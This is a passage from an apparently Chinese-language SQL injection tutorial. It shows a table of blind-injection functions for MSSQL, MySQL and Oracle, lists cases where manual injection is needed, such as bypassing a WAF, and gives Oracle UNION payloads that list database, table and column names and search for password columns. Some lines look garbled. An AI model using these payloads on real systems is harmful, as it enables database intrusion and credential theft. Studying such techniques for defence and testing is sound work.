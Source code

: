 ![p3](http://drops.javaweb.org/uploads/images/89ee294ed22d03ee2a96a3526fb72ecb83b52e5d.jpg)

### 3.5 盲注函数

| 数据 | MSSQL | Mysql | oracle |
| --- | --- | --- | --- |
| 字符串长度 | LEN() | LENGTH() | LENGTH() |
| 从给定字符串中提取子串 | SUBSTRING(string,offset,length) | SELECT SUBSTR(string,offset,length) | SELECT SUBSTR(string,offset,length) From dual |
| 字符串(‘ABC’)不带单引号的表示方式 | SELECT CHAR(0X41)+CHAR(0X42)+ CHAR(0X43) | Select char(65,66,67) | Select chr(65)||chr(66)+chr(67) from dual |
| 触发延时 | WAITFOR DELAY ‘0:0:9’ | BENCHMARK(1000000,MD5(“HACK”)) Sleep(10) | BEGIN DBMS_LOCK.SLEEP(5);END; --(仅PL/SQL注入) UTL_INADDR.get_host_name() UTL_INADDR.get_host_address() UTL_HTTP.REQUEST() |
| IF语句 | If (1=1) select ‘A’ else select ‘B’ | SELECT if(1=1,’A’,’B’) | / |

_PS：SQLMAP 针对Oracle注入时，使用了比较费解的SUBSTRC,好多时候得中转更改为SUBSTR._

0x04 手工注入
=========

* * *

### 4.1 应用场景

1.  快速验证（概念性证明）
2.  工具跑不出来了
    1.  的确是注入，但不出数据
    2.  特征不规律，挖掘规律，定制脚本
3.  绕过过滤
    1.  有WAF，手工注入
    2.  有过滤，搞绕过
4.  盲注类

### 4.2 常用语句

![p4](http://drops.javaweb.org/uploads/images/93c9f47f0490d94342f33866def9f523d419e441.jpg)

| 数据库 | 语句(大多需要配合编码) |
| --- | --- |
| Oracle | oder by N  
# 爆出第一个数据库名  
and 1=2 union select 1,2,(select banner from sys.v_ where rownum=1),4,5,6 from dual  
# 依次爆出所有数据库名,假设第一个库名为first_dbname  
and 1=2 union select 1,2,(select owner from all_tables where rownum=1 and owner<>'first_dbname'),4,5,6 from dual  
爆出表名  
and 1=2 union select 1,2,(select table_name from user_tables where rownum=1),4,5,6 from dual  
同理,同爆出下一个数据库类似爆出下一个表名就不说了,但是必须注意表名用大写或者表名大写的十六进制代码。  
有时候我们只想要某个数据库中含密码字段的表名,采用模糊查询语句，如下：  
and (select column_name from user_tab_columns where column_name like '%25pass%25')<0  
爆出表tablename中的第一个字段名  
and 1=2 union select 1,2,(select column_name from user_tab_columns where table_name='tablename' and rownum=1),4,5,6 from dual  
依次下一个字段名  
and 1=2 union select 1,2,(select column_name from user_tab_columns where table_name='tablename' and column_name<>'first_col_name' and rownum=1),4,5,6 from dual  
  